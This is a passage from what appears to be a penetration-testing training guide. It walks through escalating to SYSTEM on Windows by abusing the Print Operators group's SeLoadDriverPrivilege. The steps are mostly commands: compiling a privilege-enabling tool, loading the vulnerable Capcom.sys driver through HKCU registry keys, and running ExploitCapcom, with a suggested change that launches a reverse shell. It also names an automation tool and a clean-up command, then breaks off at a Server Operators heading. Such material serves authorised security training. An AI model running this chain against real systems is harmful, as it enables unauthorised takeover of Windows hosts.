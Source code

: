 ```
Download it locally and edit it, pasting over the includes below.

Next, from a Visual Studio 2019 Developer Command Prompt, compile it using cl.exe.


#### Compile with cl.exe

`C:\Users\mrb3n\Desktop\Print Operators>cl /DUNICODE /D_UNICODE EnableSeLoadDriverPrivilege.cpp`

#### Add Reference to Driver

Next, download the Capcom.sys driver from [here]( https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys  ), and save it to C:\temp. Issue the commands below to add a reference to this driver under our HKEY_CURRENT_USER tree.

```
C:\> reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\C:\Tools\Capcom.sys"

C:\> reg add HKCU\System\CurrentControlSet\CAPCOM /v Type /t REG_DWORD /d 1
```


 ```C:\> EnableSeLoadDriverPrivilege.exe```


#### Use ExploitCapcom Tool to Escalate Privileges

[ExploitCapcom](https://github.com/tandasat/ExploitCapcom)

`PS C:\> .\ExploitCapcom.exe`

#### Alternate Exploitation - No GUI

If we do not have GUI access to the target, we will have to modify the ExploitCapcom.cpp code before compiling. Here we can edit line 292 and replace C:\\Windows\\system32\\cmd.exe" with, say, a reverse shell binary 
        
#### Automating the Steps

We can use a tool such as [EoPLoadDriver](  https://github.com/TarlogicSecurity/EoPLoadDriver/ ) to automate the process
        
```
C:\> EoPLoadDriver.exe System\CurrentControlSet\Capcom c:\Tools\Capcom.sys
```
We would then run ExploitCapcom.exe to pop a SYSTEM shell or run our custom binary.

#### Clean-up
```
        C:\> reg delete HKCU\System\CurrentControlSet\Capcom
```
 

        


### Server Operators

        
The Server Operators group allows members to administer Windows servers without needing assignment of Domain Admin privileges. It is a very highly privileged group that can log in locally to servers, including Domain Controllers.

```